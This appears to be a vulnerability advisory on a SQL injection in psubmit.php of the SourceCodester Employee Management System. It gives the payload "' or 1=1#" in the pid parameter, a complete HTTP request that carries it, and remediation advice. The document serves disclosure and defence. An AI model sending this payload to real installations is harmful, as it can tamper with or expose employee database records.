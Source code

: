 # SourceCodester Employee Management System psubmit.php SQL Injection

## Vendor Homepage:
[SourceCodester Employee Management System](https://www.sourcecodester.com/php/14432/employee-management-system-using-php.html)

## Impact:
The SQL injection vulnerability in the `psubmit.php` script of the SourceCodester Employee Management System allows attackers to manipulate the SQL query by injecting malicious SQL code through the `pid` parameter. By crafting a specially-crafted payload such as `"' or 1=1#"`, an attacker can bypass authentication and gain unauthorized access to sensitive information or modify database records. This could lead to data leakage, integrity compromise, and potential loss of confidential information, posing a significant security risk to the application and its users.

## Proof of Concept

1. Make a GET request to `psubmit.php`.
2. Use the parameter `pid` with the payload `"' or 1=1#"`.
3. All records are updated.

## Request Example:

```http
GET /psubmit.php?pid='+or+1%3d1%23&id=1 HTTP/1.1
Host: [REDACTED]
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

### Remediation:
To mitigate the SQL injection vulnerability in psubmit.php, it is recommended to use prepared statements or parameterized queries to handle database queries. These methods ensure that user input is properly sanitized and treated as data rather than executable SQL code, effectively preventing SQL injection attacks. Additionally, input validation and output encoding should be implemented to further secure the application against injection attacks. Regular security assessments and code reviews can help identify and address any vulnerabilities in the application's codebase, ensuring robust protection against SQL injection and other security threats.

### CWE:
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)